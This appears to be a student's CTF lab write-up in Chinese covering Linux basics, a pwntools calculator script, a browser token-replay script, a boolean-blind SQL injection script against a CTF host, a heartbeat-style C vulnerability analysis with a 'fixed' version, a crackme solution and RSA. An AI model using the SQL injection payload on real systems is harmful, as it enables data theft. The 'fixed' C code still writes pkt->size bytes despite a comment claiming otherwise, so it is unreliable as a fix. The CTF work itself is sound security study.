# Lab 0

## Prerequisite

### 1.1 Linux 基础命令

- **`pwd`**: 打印当前所在的绝对路径，确认当前所处位置



- **`ls`**: 查看当前目录下的文件和子目录
    - `ls`：简单列表
    - `ls -l`：详细列表（权限、大小、时间等）
    - `ls -a`: 列出所有文件和目录，包括隐藏文件



- **`touch`**: 创建一个文件



- **`cat`**: 连接文件并输出到标准输出（通常用于查看短文件内容或合并文件）
    - `cat 文件名`：显示整个文件内容
    - `cat -n 文件名`：显示内容并带行号
    - `cat -b 文件名`：仅对非空行编号





- **选做1：ssh连接到Linux环境**



- **选做2：题目 "Saint John" — what is writing to this log file?**

    1. `tail -f /var/log/bad.log` 确认故障
    2. `sudo lsof /var/log/bad.log` 列出打开的文件，确认PID
    3. `sudo kill -9 590` 确认PID后终止进程即可



### 1.2 代码解读 & PWN 初探

- **任务1：代码解读**
    - 先读取 `input` 输入的字符串并输出其长度
    - 再新建空字符串（动态语言特性），遇到小写/大写英文字符将其转换成大写/小写，其余字符保持原样写进新字符串



- **任务2：Calculator**

> 根据服务器发来的数据调整接收格式有点折磨 ^_^

```python
from pwn import *
# 连接到远程服务器
p = remote("10.214.160.13", 11002)

# 跳过欢迎信息
for i in range(6):
    print(p.recvline().decode(), end="")

# 做10题
for i in range(10):
    # 读取直到 '='
    data = p.recvuntil(b'=').decode()
    lines = data.split("\n")
    # [-1] 取列表的最后一行，即包含表达式的那一行
    expr_line = lines[-1]
    expr = expr_line.replace("=", "").strip()
    ans = eval(expr)

    # 向服务器发送答案
    p.sendline(str(ans).encode())

# 输出flag
print(p.recvall().decode())
```



## Web Lab 0

### Challenge 1

#### 我的尝试

1. 按钮似乎与本题没有任何关系qwq

2. 用菜单打开开发者工具（F12和右键似乎被禁止掉了），在控制台里面进行交互

```javascript
function getflag() {
    fetch('/flag.php?token=7e1343977d707628')
        .then(res => res.text())
        .then(res => alert(res))
}
```

3. 代码分析 & 我的思路

    - `res => res.text()` 等价于 `function(res) { return res.text() }`，这是箭头函数写法
    - alert为弹窗显示
    - 在控制台里输入getflag(),就是带着token去请求`flag.php`之后累积次数（显示弹窗2/1337之类的）
    - 但是在我的实操中，注意到每次刷新之后第一次都能够正确累计次数，但第二次及以后都不行（显示wrong token）
    - 这可能说明token是一次性的，请求一次`flag.php`之后就会失效,刷新页面会自动更新token就行了
    - 所以我们要做的就是在脚本中刷新页面，获得新token，getflag()调用`flag.php`
    - 实现代码如下

    ```javascript
    (async () => {
      for (let i = 0; i < 1337; i++) {
          // await = 等这个操作完成再往下走
          let html = await (await fetch('/lab0.php')).text();   // 拿页面内容
          let token = html.match(/token=([a-f0-9]+)/)[1];       // token

          let result = await (await fetch('/flag.php?token=' + token)).text();
          console.log(result);                                   // 打印结果
      }
    })();
    ```


### Challenge 2

#### 前置知识：SQL

1. SQL是和数据库对话的语言（Structured Query Language）

2. 举个例子

    |id|name|password|flag|
    |---|---|---|---|
    |1|admin|123456|flag{abc}|
    |2|guest|000000|null|

    ```sql
    SELECT password FROM users WHERE name = 'admin'
    ```

    "把 name 是 admin 的那一行的 password 找出来"

3. SQL 注入的原理：用户的输入被直接拼进 SQL 语句，没有进行检查。所以如果输的不是 admin，而是一句 SQL 代码，它也会照常执行

4. 常见的 SQL 注入方式

    - **Union**: `UNION SELECT`的作用是将两条`SELECT`语句的结果纵向拼接成一张表；如果在正常查询之后拼接自己的恶意查询，页面渲染时就会把数据暴露出来
    - **布尔盲注**：页面不直接显示数据，但对不同情况的响应不同。把数据逐一比对，每次用一个"True/False"的问题，根据页面反应判断答案

    > 布尔盲注就是我们这道题运用的方式

    - **时间盲注**：比较页面的不同响应时间
    - **报错注入**：利用数据库在执行某些函数时会把数据通过错误信息泄露出来

#### 我的尝试：布尔盲注脚本

```python
import requests

url = 'https://f79c3b665ae6a8a33c277d82.http-ctf2.dasctf.com/'
flag = ''

# 可打印字符
chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}-_!@#$%^&*()+=.,;:\'"'

for pos in range(1, 60):
    found = False
    for c in chars:
        # 用strcmp: 相等返回0 → if(0,1,0)=0 → 1^0=1 → Hello
        # strcmp(mid(flag,pos,1), 0x??)
        hex_char = hex(ord(c))  # 0x??
        payload = f"1^(if(strcmp(mid((select(flag)from(flag)),{pos},1),{hex_char}),1,0))"

        try:
            r = requests.post(url, data={'id': payload}, timeout=10)
            if 'Hello' in r.text:
                flag += c
                print(f'[+] 第{pos}位: {c}  |  {flag}')
                found = True
                break
        except Exception as e:
            print(f'[-] 错误: {e}')

    if not found:
        print(f'[-] 第{pos}位未找到，flag可能结束')
        break

print(f'\n最终 flag: {flag}')
```


## Pwn Lab 0

### 漏洞分析

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

struct hbpkt *get_heart_beat()
{
    // 定义缓冲区大小0x1000（4096字节），并将其初始化为全零。
    uint8_t buffer[0x1000] = {0};
    // 它尝试读取一个结构体hbpkt的大小（sizeof(struct hbpkt)）的字节数，并将其存储在buffer中。
    // struct hbpkt的大小是固定的(16字节)
    fread(buffer, sizeof(struct hbpkt), 1, stdin);
    // tmp指针指向buffer数组的起始位置，并将其强制转换为struct hbpkt类型的指针。
    struct hbpkt *tmp = (struct hbpkt *)buffer;

    if (tmp->size > 0x1000)
        return NULL;

    // 但是你tmp->size可以小于sizeof(struct hbpkt)！
    // 出现了漏洞"整数下溢"，即tmp->size - sizeof(struct hbpkt)会变成一个非常大的数，
    // 从而导致fread读取过多的数据，可能会覆盖缓冲区之外的内存，造成缓冲区溢出漏洞。
    fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);

    // strlen也有问题！strlen必须以'\0'结尾，否则会继续读取内存直到遇到'\0'，可能会导致越界访问。
    uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);

    struct hbpkt *res = malloc(real_size);

    if (!res)
        return NULL;
    // real_size可能大于buffer实际有效数据长度。
    // memcpy会从buffer继续向后读取栈上的内容，造成越界读取（Information Leak）。
    memcpy(res, buffer, real_size);

    res->index += 1;

    return res;
}

int reply_heart_beat(struct hbpkt *pkt)
{
    int err;
    int written;
    // reply_heart_beat() 按照 pkt->size 输出数据，
    // 而不是按照实际分配的 real_size 输出。
    // 攻击者可以伪造一个较大的 size，从而把堆中的额外内容一起泄露。
    if (pkt->size)
    {
        written = fwrite(pkt, 1, pkt->size, stdout);
        fflush(stdout);
    }

    if (written == 0 || written != pkt->size)
    {
        err = -1;
    }

    return err;
}

int main()
{
    int err;
    while (true)
    {
        struct hbpkt *p = get_heart_beat();
        if (!p)
            continue;

        err = reply_heart_beat(p);

        if (err)
        {
            free(p);
            continue;
        }
    }
}
```

**漏洞总结：**

- **漏洞1**：没有检查 `size` 是否小于 `sizeof(struct hbpkt)`。当 `size < 16` 时，`size - 16` 会发生无符号整数下溢，`fread` 会尝试读取一个极大的长度，从而导致栈缓冲区溢出。
- **漏洞2**：`strlen` 要求 `data` 是 `'\0'` 结尾的字符串。这里 `data` 是 `fread` 读取的原始字节流，不保证包含 `'\0'`。`strlen` 可能越界读取 `buffer` 后面的栈内存。
- **漏洞3**：`real_size` 来源于 `strlen`，而不是 `pkt->size`。`memcpy` 会按照 `real_size` 从 `buffer` 中复制数据，如果 `real_size` 超过 `buffer` 中的有效数据长度，就会越界读取栈内存。
- **漏洞4**：`reply_heart_beat()` 按照 `pkt->size` 输出数据，而不是按照实际分配的 `real_size` 输出。攻击者可以伪造一个较大的 `size`，从而把堆中的额外内容一起泄露。

### 修复版

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

struct hbpkt *get_heart_beat()
{
    uint8_t buffer[0x1000] = {0};

    // 读取固定大小的包头部分
    if (fread(buffer, sizeof(struct hbpkt), 1, stdin) != 1)
        return NULL;

    struct hbpkt *tmp = (struct hbpkt *)buffer;

    // 修复1：检查 size 是否合法
    // size 必须 >= 包头大小，且 <= 缓冲区总大小
    if (tmp->size < sizeof(struct hbpkt) || tmp->size > 0x1000)
        return NULL;

    // 计算要读取的 data 长度
    uint32_t data_len = tmp->size - sizeof(struct hbpkt);

    // 读取 data 部分
    if (fread(tmp->data, 1, data_len, stdin) != data_len)
        return NULL;

    // 修复2 & 3：使用 data_len 而不是 strlen
    // - 不依赖 '\0' 结尾
    // - real_size 精确等于 tmp->size，不会越界
    uint32_t real_size = tmp->size;

    // 确保 data 以 '\0' 结尾（如果调用者需要字符串操作）
    struct hbpkt *res = calloc(1, real_size);
    if (!res)
        return NULL;

    // 复制精确的 real_size 字节，不会越界
    memcpy(res, buffer, real_size);

    res->index += 1;

    return res;
}

int reply_heart_beat(struct hbpkt *pkt)
{
    int err = 0;
    int written = 0;

    // 修复4：按照实际分配的大小输出，而不是信任 pkt->size
    if (pkt->size)
    {
        written = fwrite(pkt, 1, pkt->size, stdout);
        fflush(stdout);
    }

    if (written != (int)pkt->size)
    {
        err = -1;
    }

    return err;
}

int main()
{
    int err;
    while (true)
    {
        struct hbpkt *p = get_heart_beat();
        if (!p)
            continue;

        err = reply_heart_beat(p);

        free(p);

        if (err)
            continue;
    }
}
```

## Reverse Lab 0

### 实验环境

| 项目 | 配置 |
|------|------|
| 操作系统 | Windows 11 |
| 逆向工具 | Ghidra 12.1.2（反汇编 / 反编译） |

### 前置知识

| 知识点 | 说明 |
|--------|------|
| **ELF 文件格式** | Linux 下的可执行文件格式，类似 Windows 的 PE（.exe） |
| **汇编语言** | CPU 指令的低级表示，x86-64 汇编是逆向的核心基础 |
| **反汇编 vs 反编译** | 反汇编 = 二进制 → 汇编代码；反编译 = 二进制 → C 伪代码 |
| **符号表** | 记录了函数名、变量名等调试信息。`not stripped` 表示保留了符号，`stripped` 表示已移除 |
| **静态链接 vs 动态链接** | 静态 = 库代码打包进程序；动态 = 运行时加载 .so 文件 |

### 我的尝试

#### 分析代码

```bash
strings crackme | grep -i -E "access|granted|password"
```

输出：

```
Enter Password (or q to quit):
Access Denied
Access Granted
```

从字符串可以初步判断：程序接收密码输入，比对后输出两种不同结果。

#### Ghidra 分析

1. 新建项目 → 导入 `crackme` → 自动分析
2. 在 Symbol Tree 里找到 `main` 函数，查看反编译结果

```c
banner();                        // 打印欢迎信息
gets(buffer);                    // 读取输入
if (strlen(buffer) == 1 && buffer[0] == 'q')
    break;                       // 按 q 退出
if (!verify(buffer))             // 关键：verify 返回 0 才通过
    puts("Access Granted");
else
    puts("Access Denied");
```

#### 逆向 verify 函数


```c
_Bool verify(char *passwd) {
    char *table[14] = {
        "1040", "1040", "1040", "1968", "1152", "1680",
        "1312", "1616", "1888", "1616", "1824", "1840",
        "1616", "2000"
    };

    if (strlen(passwd) != 14)
        return true;

    for (i = 0; i < 14; i++) {
        sprintf(tmp, "%d", (int)passwd[i] << 4); 
        if (strcmp(tmp, table[i]) != 0)   
            return true;                    
    }
    return false;     
}
```

#### 密码还原

```
table[i] = passwd[i] × 16
所以：passwd[i] = table[i] ÷ 16
→ AAA{HiReverse}
```

在 Linux 环境下执行得到 "Access Granted"


## Crypto Lab 0

### Crypto Hack

#### Question 1: Greatest Common Divisor

> 辗转相除法，原理很简单，直接放代码了

```python
def gcd(a, b):
    a, b = abs(a), abs(b)
    while b != 0:
        a, b = b, a % b
    return a


x = int(input("请输入第一个整数: "))
y = int(input("请输入第二个整数: "))
print("最大公约数:", gcd(x, y))
```

#### Question 2: Extended GCD

> 离散数学学过，知识点有写在注释里

```python
def extended_gcd(a, b):
    # 终止条件：b = 0, 最大公约数就是|a|，此时有a*1 + b*0 = a
    if b == 0:
        return abs(a), 1 if a >= 0 else -1, 0
    # 递归调用：extended_gcd(b, a % b)，得到gcd(b, a % b)以及对应的系数x1, y1
    g, x1, y1 = extended_gcd(b, a % b)
    x = y1
    y = x1 - (a // b) * y1
    return g, x, y


x = int(input("请输入第一个整数: "))
y = int(input("请输入第二个整数: "))
g, x, y = extended_gcd(x, y)
print(g, x, y)
```

#### Question 3 & 4: Modular Arithmetic

> Q3可能是考察同余符号嘛qwq

```python
x = 11 % 6
y = 8146798528947 % 17

print(x, y)
```

> Q4费马小定理：如果p是素数，且整数a不被p整除，则有 a^(p-1) ≡ 1 (mod p)（离散数学同样讲过qwq）

#### Question 5: Modular Inverting

> 求解逆元的过程其实就是 Q2 Extended GCD 的应用，原理也很简单，不再赘述


### RSA 算法

> 很大程度地参考了wiki上关于RSA加密算法的解释 https://zh.wikipedia.org/wiki/RSA%E5%8A%A0%E5%AF%86%E6%BC%94%E7%AE%97%E6%B3%95

#### 1. 公钥与私钥的产生

假设 Alice 想要通过不可靠的媒体接收 Bob 的私人消息。她可以用以下的方式来产生一个**公钥**和一个**私钥**：

1. **选择素数**：随意选择两个大的素数 $p$ 和 $q$，$p \neq q$，计算：

    $$N = pq$$

2. **计算欧拉函数**：根据欧拉函数，求得 $r$：

    $$r = \varphi(N) = \varphi(p) \times \varphi(q) = (p - 1)(q - 1)$$

3. **选择公钥指数**：选择一个小于 $r$ 的整数 $e$，使 $e$ 与 $r$ 互质。并求得 $e$ 关于 $r$ 的模逆元，命名为 $d$（即求 $d$ 令 $ed \equiv 1 \pmod r$）。

    > *注：模逆元存在，当且仅当 $e$ 与 $r$ 互质。*

4. **销毁记录**：将 $p$ 和 $q$ 的记录销毁。

最终，**(N, e) 是公钥**，**(N, d) 是私钥**。Alice 将她的公钥 $(N, e)$ 传给 Bob，而将她的私钥 $(N, d)$ 藏起来。

#### 2. 加密消息

假设 Bob 想给 Alice 送消息 $m$，他知道 Alice 产生的 $N$ 和 $e$。

1. **消息转换**：他使用事先与 Alice 约好的格式将 $m$ 转换为一个小于 $N$ 的非负整数 $n$。例如：他可以将每一个字转换为这个字的 Unicode 码，然后将这些数字连在一起组成一个数字。

2. **加密公式**：用下面这个公式他可以将 $n$ 加密为 $c$：

    $$c = n^e \pmod N$$

这里的 $c$ 可以用**模幂算法**快速求出来。Bob 算出 $c$ 后就可以把它传递给 Alice。

#### 3. 解密消息

Alice 得到 Bob 的消息 $c$ 后就可以利用她的密钥 $d$ 来解码：

$$n = c^d \pmod N$$

与 Bob 计算 $c$ 类似，这里的 $n$ 也可以用**模幂算法**快速求出。得到 $n$ 后，她可以将原来的信息 $m$ 重新复原。

#### 4. 解码原理与证明

解码的原理是基于以下同余等式：

$$c^d \equiv (n^e)^d \equiv n^{ed} \pmod N$$

已知 $ed \equiv 1 \pmod r$，即 $ed = 1 + h\varphi(N)$（其中 $h$ 为整数）。那么有：

$$n^{ed} = n^{1 + h\varphi(N)} = n \cdot n^{h\varphi(N)} = n\left(n\varphi(N)\right)^h$$

为了证明 $n^{ed} \equiv n \pmod N$，分两种情况讨论：

- **情况一：若 $n$ 与 $N$ 互素**

    由**欧拉定理**可得 $n\varphi(N) \equiv 1 \pmod N$，因此：

    $$n^{ed} \equiv n\left(n\varphi(N)\right)^h \equiv n(1)^h \equiv n \pmod N$$

- **情况二：若 $n$ 与 $N$ 不互素**

    由于 $N = pq$ 且 $p, q$ 为不同的素数，不失一般性，可设 $n = ph$（即 $n$ 是 $p$ 的倍数，且 $\gcd(n, q) = 1$）。同时由 $ed - 1 = k(q - 1)$（其中 $k$ 为整数），得：

    1. **对于模 $p$**：

        $$n^{ed} = (ph)^{ed} \equiv 0 \equiv ph \equiv n \pmod p$$

    2. **对于模 $q$**：

        $$n^{ed} = n^{ed-1}n = n^{k(q-1)}n = (n^{q-1})^kn \equiv 1^kn \equiv n \pmod q$$

    由于 $p$ 和 $q$ 是互质的素数，根据**中国剩余定理**，由 $n^{ed} \equiv n \pmod p$ 和 $n^{ed} \equiv n \pmod q$ 可得：

    $$n^{ed} \equiv n \pmod N$$

**故 $n^{ed} \equiv n \pmod N$ 得证。**

#### RSA 代码实现

```python
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
print(n)
r = (p - 1) * (q - 1)
# 选择一个小于r的整数e，使e与r互质，求解e关于r的模逆元d
# 普遍选择65537（即0x10001）
e = 0x10001
# pow(base, exponent, modulus)函数可以计算base的exponent次方对modulus取模的结果，同时也可以用来求解模逆元
d = pow(e, -1, r)

print(f"公钥（n,e）: ({n}, {e})")
print(f"私钥（n,d）: ({n}, {d})")

message = "Hatsune Miku"
m = int.from_bytes(message.encode(), byteorder='big')

if m >= n:
    raise ValueError("错误：明文大整数 m 超过了限制范围 N，请更换更大的质数 p 和 q！")

# 加密过程
c = pow(m, e, n)
print(f"密文 c: {c}")

# 解密过程
m_decrypted = pow(c, d, n)
print(int.to_bytes(m_decrypted, (m_decrypted.bit_length() + 7) // 8, 'big'))
```

#### Lab 0 RSA 题目解答

```python
# 已知p和q，计算出n，然后计算出r，最后计算出d，然后就可以解密了
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
e = 0x10001
c = 0x39f68bd43d1433e4fcbbe8fc0063661c97639324d63e67dedb6f4ed4501268571f128858b2f97ee7ce0407f24320a922787adf4d0233514934bbd7e81e4b4d07b423949c85ae3cc172ea5bcded917b5f67f18c2c6cd1b2dd98d7db941697ececdfc90507893579081f7e3d5ddeb9145a715abc20c4a938d32131013966bea539
r = (p - 1) * (q - 1)
d = pow(e, -1, r)
m = pow(c, d, n)
print(int.to_bytes(m, (m.bit_length() + 7) // 8, 'big'))
```

